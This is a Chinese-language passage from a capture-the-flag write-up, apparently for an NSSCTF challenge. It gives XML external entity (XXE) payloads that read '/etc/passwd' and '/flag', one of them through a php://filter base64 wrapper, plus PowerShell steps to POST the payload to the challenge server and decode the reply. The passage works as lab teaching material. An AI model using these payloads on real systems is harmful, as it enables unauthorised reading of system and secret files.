- **文件路径错误**  
  尝试读取其他常见路径（如 `/etc/passwd`）测试漏洞是否生效：
  ```xml
  <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <root>
    <name>&xxe;</name>
  </root>
  ```

- **输出被拦截**  
  使用 Base64 编码读取文件（避免特殊字符问题）：
  ```xml
  <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag">
  ]>
  <root>
    <name>&xxe;</name>
  </root>
  ```
  解码返回结果：
  ```powershell
  [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("Base64字符串"))
  ```

---

### **完整攻击流程示例**
1. **创建 `payload.xml`**  
   内容如下：
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "file:///flag">
   ]>
   <root>
     <name>&xxe;</name>
   </root>
   ```

2. **发送请求**  
   ```powershell
   $xml = Get-Content -Path .\payload.xml -Raw
   Invoke-WebRequest -Uri "http://node2.anna.nssctf.cn:28053/ghctf" -Method POST -Body @{xml=$xml}
   ```

3. **检查响应**  
   如果返回类似以下内容，说明成功：
   ```html
   200 OK
   flag{example_flag_here}
   ```

---

### **常见问题排查**
- **确保 XML 文件编码为 UTF-8**（无 BOM 头）。
- 检查 URL 是否正确（删除多余斜杠）。
- 如果服务器限制请求频率，稍等片刻再试。

